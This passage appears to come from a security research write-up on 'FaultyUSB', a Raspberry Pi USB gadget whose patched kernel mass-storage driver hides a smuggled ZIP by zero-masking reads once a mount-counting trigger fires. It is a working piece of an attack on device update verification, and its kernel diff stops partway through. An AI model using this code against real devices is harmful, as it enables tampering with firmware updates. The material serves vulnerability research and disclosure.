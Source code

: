 ```
echo 'blacklist bcm2835_codec
blacklist bcm2835_isp
blacklist bcm2835_v4l2
blacklist drm
blacklist rpivid_mem
blacklist vc_sm_cma' | sudo tee /etc/modprobe.d/blacklist-bcm2835.conf

echo '[Journal]
Storage=volatile
RuntimeMaxUse=64M' | sudo tee /etc/systemd/journald.conf

```

Finally we restart the RPi, verify that it is still accessible over SSH and shut it down in preparing of a kernel build.

### Kernel Module Patching

The main requirement of the programmable USB OTG mass storage device is the ability to detect the update state, so that it can serve different results based on current stage. The most obvious place to implement such feature is directly in the mass storage functionality implementation, which is located at `drivers/usb/gadget/function/f_mass_storage.c` in the Linux kernel.

The crucial feature of FaultyUSB is the trigger implementation, which dictates when to hide the smuggled ZIP file. To implicitly detect the state of the update process a very simple counting algorithm prooved to be sufficient. Specific parts of the file system seem to be only read during mount events, thus by counting mount-like patterns the update stage can be recovered.

While the trigger condition is active, the read responses are modified by masking by zeros. The read address and the masking area size should be configured to cover the smuggled ZIP at the end of the update archive.

Here is the `mass_storage_patch.diff` file, with huge amount of logging code:

```
diff --git a/drivers/usb/gadget/function/f_mass_storage.c b/drivers/usb/gadget/function/f_mass_storage.c
index 6ad669dde..653463213 100644
--- a/drivers/usb/gadget/function/f_mass_storage.c
+++ b/drivers/usb/gadget/function/f_mass_storage.c
@@ -596,6 +596,8 @@ static int do_read(struct fsg_common *common)
 	unsigned int		amount;
 	ssize_t			nread;
 
+	loff_t begin, end;
+
 	/*
 	 * Get the starting Logical Block Address and check that it's
 	 * not too big.
@@ -662,8 +664,35 @@ static int do_read(struct fsg_common *common)
 		file_offset_tmp = file_offset;
 		nread = kernel_read(curlun->filp, bh->buf, amount,
 				&file_offset_tmp);
+		LINFO(curlun, "READ A=0x%llx S=0x%x\n", file_offset, amount);
 		VLDBG(curlun, "file read %u @ %llu -> %d\n", amount,
 		      (unsigned long long)file_offset, (int)nread);
+
+		/* mask read on trigger (e.g. when trigger_counter == 1) */
+		if (
+			((file_offset + amount) > curlun->payload_offset) &&
+			(file_offset < (curlun->payload_offset + curlun->payload_size))
+		) {
+			LINFO(curlun, "READ ON PAYLOAD AREA (A=0x%llx S=0x%x)\n",
+			      file_offset, amount);
+			if (curlun->trigger_counter == 1) {
+				begin = max(file_offset, curlun->payload_offset) - file_offset;
```